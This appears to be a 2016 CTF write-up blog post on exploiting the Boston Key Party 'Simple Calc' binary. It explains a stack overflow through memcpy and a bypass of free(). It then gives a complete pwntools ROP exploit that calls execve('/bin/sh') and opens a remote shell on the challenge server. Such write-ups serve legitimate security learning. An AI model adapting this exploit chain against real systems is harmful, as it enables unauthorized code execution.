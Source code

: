 ```yaml
---
layout: post
title:  "Boston Key Party - PWN 5 ‘Simple Calc’"
date:   2016-03-06
categories: ctf pwn
---
```


Running strings we see this is a x86_64 binary _statically compiled_, which should make things a lot easier for us.

{% highlight bash %}
vagrant@kali:/vagrant/ctfs/bostonkp2016$ file simplecalc
simplecalc: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=0x0676a83cc38d2b9b20c612f4d7a19255eaa93b52, not stripped
{% endhighlight %}

Running the application, with IDA open on the side to quickly get past any restriction, I see that this program simply takes some number of calculations and then for each it allows you to choose wish operation to perform and the two operands. Both operands must be greater than 39, and the input and result are 4 byte ints. There are 12 global variables, three for each operation, and one for each operand and the result, plus four bytes padding between each set to maintain alignment.

When you first choose how many calculation to make, an appropriately size buffer is `malloc`ed and the result of each is saved. If you decide to quit out early, then the buffer is `memcpy`d to a buffer on the stack, which gives us our stack smashing opportunity -- Just select more operations than the stack buffer can fit the results for. This will, however, overwrite the pointer to the alloc'd buffer, causing the `free` call to crash, but we can easily get around that: `free(0)` short circuits and returns, so all we need to do is overwrite the stack will nulls, which we can do by subtracting some number from itself.

Now that I have RIP, I need to exploit it. Stack is NX, and I can't find "/bin/*sh" in a static part of the binary, nor is there a `system`. This rules out ret2libc, and we will have to do a ROP.

This was my first non-trivial ROP (and some would argue it's still trivial), so I will go into how I did it.

First I needed to figure out how to make the syscall. I found some simple shellcode [here](http://imgur.com/HbgCv5u), and figured out what it was doing:

* Set AL to 0x3B
* Set RDX to NULL
* Set RDI to point to "/bin/sh\0"
* Set RSI to point to a pointer to "/bin/sh\0" followed by NULL.

Since we are on x86_64, this requires two 'operations' so that we write eight bytes. This also gives us another problem: The stack location is unpredictable, where do we put this arg array and string? Lucky for us, we have easily controllable global vars. Once we set up the ROP chain on the stack, we can re-run dummy operations to overwrite the global 'cache' of operands and results.

To do this I simply 'divided' "/bin" by "/sh\0", which puts "/bin/sh\0" at the `divv` symbol. For the array, it was a bit trickier: I needed something with 12 NULL bytes after (4 to cover the second half of the pointer, and 8 more for the second elements). Since `sub` was at the end, I could do this. I put the address of `divv` as both operands of a sub operation, which would result in a NULL result, plus the four bytes following would be NULL (since the section is .bss). Unfortunately I hit another problem: In practice, a symbol soon after the sub result, `_dl_tls_static_used` was set to 0x60. To get around this, I would need an extra ROP gadget to write over this value with 0.

In the end, I ended up with what I think is a pretty elegant solution:

{% highlight python %}
import struct

def write_addr(addr):
    return ADD + str(addr-40) + "\n" + "40\n" + NULL

# Commands
ADD = "1\n"
SUB = "2\n"
MUL = "3\n"
DIV = "4\n"
DONE = "5\n"
NULL = SUB+"40\n"+"40\n"
# Gadgets
POP_RDI = write_addr(0x00401b73)
POP_RAX = write_addr(0x0044db34)
POP_RDX = write_addr(0x00437a85)
POP_RSI = write_addr(0x00401c87)
MOV_EDX_TO_AT_RAX = write_addr(0x0044526f)
SYSCALL = write_addr(0x004648e5)
# Globals
addX = 0x6C4A80
addY = addX + 4
addRes = addY + 4
divX = addRes + 8
divY = divX + 4
divRes = divY + 4
mulX = divRes + 8
mulY = mulX + 4
mulRes = mulY + 4
subX = mulRes + 8
subY = subX + 4
subRes = subY + 4
_dl_tls_static_used = 0x6C4AC0

# Builds commands
commands = [
    "100\n",  # Any large number
    NULL*18,  # Get to RA
    # Set _dl_tls_static_used to 0
    POP_RAX,
    write_addr(_dl_tls_static_used),
    POP_RDX,
    NULL, NULL,
    MOV_EDX_TO_AT_RAX,
    # Now get ready for syscall
    POP_RDI,
    write_addr(divX),  # divX holds the string "/bin/sh"
    POP_RAX,
    SUB + str(0x3b + 4096) + "\n" + "4096\n" + NULL,  # 0x3b = execve
    POP_RDX,
    NULL, NULL,  # RDX should be null
    POP_RSI,  # RSI should point to an array that has a pointer to "/bin/sh" and a null pointer
    write_addr(subY),
    SYSCALL,
    # Now we need to populate the global vars by running extra calcs
    # -- Put "/bin/sh" at addX
    DIV + str(struct.unpack("<I", b"/bin")[0]) + "\n",
    str(struct.unpack("<I", b"/sh\x00")[0]) + "\n",
    # -- Put pointer to divX at subY with null after
    SUB + str(divX) + "\n" + str(divX) + "\n",
    DONE
]

from pwn import *

r = remote("simplecalc.bostonkey.party", 5400)
garbage = r.recv()
r.send("".join(commands))
r.interactive()
{% endhighlight %}
